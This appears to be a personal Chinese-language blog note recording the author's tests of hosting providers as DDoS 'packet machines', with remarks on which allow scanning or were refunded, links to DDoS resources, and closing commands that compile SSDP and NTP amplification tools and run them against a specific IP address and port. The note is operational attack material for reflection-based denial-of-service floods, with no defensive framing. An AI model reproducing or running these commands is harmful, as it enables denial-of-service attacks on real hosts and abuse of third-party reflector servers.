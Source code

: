 ```yaml
---
title: Hack-【发包机试水测试】
date: 2021-08-20 18:07:21
tags: Hack
categories: Hack
---
```


### Hack-【发包机试水测试】

测试笔记 

https://www.aeys.org/thread-4239-1-1.html   ddos态势

https://cp.myprepaid-server.com/clientarea.php?action=productdetails&id=2919    测试无用 可扫描

https://onevpshosting.com/clientarea.php?action=services  买了 再试  不行 （已退款）

https://clovux.net/billing/clientarea.php?action=services  不行 申请退款了

https://client.virtualine.net/cart.php?a=confproduct&i=0 没测试

https://clients.accuristechnologies.ca/index.php?rp=/store/ottawa-kvm-vps   测试了 不行  （申请退款了）

发包机渠道

https://www.bilibili.com/video/BV1sK421e7Y8/?spm_id_from=333.337.search-card.all.click&vd_source=09c378d5b1716fa19f2d2471f10b943d

http://www.daidc.com 安徽合肥联通扫描 

https://ipraft.com/香港的 3u

https://www.seflow.net/dedicated/ 大哥给的 10g

1、笔记  https://www.eserver.ru/c    https://1byte.com/

https://cloud.colocrossing.com/index.php?rp=/login 扫描的

https://cp.myprepaid-server.com/clientarea.php?action=cancel&id=2919 扫描

BudgetVM  扫描快的

DOS:攻击

https://www.shellop.com/archives/14

ssdp 

https://www.aeys.org/2298.html

https://dstat.cc/l4nonprotected?id=Litnics

gcc -lpthread ntp.c -lpcap -o ntp

gcc -lpthread ssdp.c -lpcap -o ssdp

./ssdp 206.212.246.14 80 ssdpfiltered.txt 5 -1 100000 ./ntp 206.212.246.14 80 ntpamp.txt 5 -1 100000